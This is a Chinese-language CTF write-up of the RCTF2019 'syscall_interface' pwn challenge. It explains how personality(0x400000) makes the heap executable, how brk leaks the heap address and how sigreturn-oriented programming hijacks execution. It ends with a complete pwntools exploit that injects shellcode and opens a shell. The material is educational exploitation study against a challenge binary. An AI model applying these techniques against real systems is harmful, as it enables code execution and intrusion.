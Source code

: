 ```yaml
---
title: RCTF2019_syscall_interface
date: 2019-05-29 22:56:48
tags: shellcode
---
```

复现 syscall_interface. 
<!--more-->
# syscall_INTERFACE 
[bianry][2]
题目提供了syscall的借口但是只有一个可用参数
禁止用[0x38,0x3b]的调用
全保护
对系统调用的熟悉程度或者说是学习能力比较重要.
发现自己还是知道的太少了.
本篇无干货建议移步原文.
比赛的时候没做出来赛后看的`balsn`的[write_up][1]
TQL 这个思路很奇妙
# personality
135号调用一个参数：`unsigned int personality`
查看手册`http://man7.org/linux/man-pages/man2/personality.2.html`
```c
READ_IMPLIES_EXEC (since Linux 2.6.8)
With this flag set, PROT_READ implies PROT_EXEC for mmap(2).
```
这个调用可以设置程序的一些...personality?
真有那么好的事情吗...`read`就是`exec`试试看.
```c
//https://code.woboq.org/userspace/glibc/sysdeps/unix/sysv/linux/sys/personality.h.html
enum
{
UNAME26 = 0x0020000,
ADDR_NO_RANDOMIZE = 0x0040000,
FDPIC_FUNCPTRS = 0x0080000,
MMAP_PAGE_ZERO = 0x0100000,
ADDR_COMPAT_LAYOUT = 0x0200000,
READ_IMPLIES_EXEC = 0x0400000,
ADDR_LIMIT_32BIT = 0x0800000,
SHORT_INODE = 0x1000000,
WHOLE_SECONDS = 0x2000000,
STICKY_TIMEOUTS = 0x4000000,
ADDR_LIMIT_3GB =         0x8000000
};
```
测试代码/main.c
```c
#include<stdio.h>
#include<stdlib.h>
int main()
{
__asm__(
"xor %rax,%rax\t\n"
"mov $135,%rax\t\n"
"xor %rdi,%rdi\t\n"
"mov $0x400000,%rdi\t\n"
"syscall"
);
char *a=malloc(0x100);

}
//gcc main.c -o main
```
gdb调戏之
```s
0x00600000         0x00601000         r--p    /home/n132/Desktop/main
0x00601000         0x00602000         rw-p    /home/n132/Desktop/main
0x00602000         0x00623000         rwxp    [heap]
0x00007ffff7a0d000 0x00007ffff7bcd000 r-xp    /lib/x86_64-li
```

发现之后申请的可读内存是可以执行的.
太强了...这个系统调用我见都没见过...


# brk
这个相对熟悉，比赛时也想到了用来泄漏`heap`地址之后因为时行缓冲所以我们的输入会在`heap`（如果参数小于当前brk尝试收缩，无法收缩则返回当前brk,大于则尝试拓展）。

可以去`/mm/mmap.c`里看看实现.
# sys_rt_sigreturn

在`SROP`中学习过一些皮毛.如果可以控制栈可以控制执行流.
因为`set_name`功能可以控制一定栈内容 恰好`RIP`，`csgsfs`都在比较考前的位置.所以可以用`set-name`设置
继而利用`sys_rt_sigreturn`控制`RIP`


# 思路
balsn的做法真的非常精妙.
总的是利用`brk`泄漏地址，`personality`使得`heap`可以执行，`sys_rt_sigreturn`控制执行流.
具体是:
* `personality` 参数为0x400000,`printf`时调用`malloc`,堆可执行.
* `brk`泄漏堆地址.
* `set_name`预设好`rip`和`shellcode`（别忘记设置`csgsfs`）
* 随便调用一个系统调用 利用`printf`将 `shellcode`打到`heap`上
* 调用`sys_rt_sigreturn`

# exp
```python
from pwn import *
def cmd(c):
p.sendlineafter("ice:",str(c))
def set_name(n):
cmd(1)
p.sendafter("name:",n)
def sys(rax,rdi):
cmd(0)
p.sendlineafter("ber:",str(rax))
p.sendlineafter("ment:",str(rdi))
#context.log_level='debug'
p=process('./syscall_interface')
context.arch='amd64'

sys(135,0x0400000)#0
sys(12,0)#1

p.readuntil("RET(")
base=int(p.readuntil(")")[:-1],16)-(0x0000555555778000-0x0000555555757000)
log.info(hex(base))
#rbp rbx rdx rax rcx rsp rip
rbp=base
sh="""
pop rbx
mov rsi,rsp
push rsi
syscall
ret
"""
sig=asm(sh).ljust(0x10,'\x90')+p64(0x100)+p64(0)+p64(0)+p64(base+0x100)+p64(base+0x40)+p64(0)+p64(0x33)
set_name(sig)

sys(12,0)
#gdb.attach(p,'b *0x000555555554EC8')
sys(15,0)#base-0x1000+0x10-0x60)#0

p.send(asm(shellcraft.sh()))

p.interactive()
```


# summary
比赛的时候就去找一个参数或者0参数的系统调用发现了`brk`和`sigret`但是感觉没啥用泄漏的不是libc地址.
差了`personality`，走歪了一直想办法泄漏`libc`地址

但是即使发现了`personality`的0x400000我感觉这样的利用方式我目前的实力还是有差距.
还是知识面太窄了太菜了.
`balsn`太强了
`2019`太强了



[1]: https://balsn.tw/ctf_writeup/20190518-rctf2019/#syscall_interface
[2]: https://github.com/n132/Watermalon/tree/master/RCTF-2019/pwn/syscall_interface

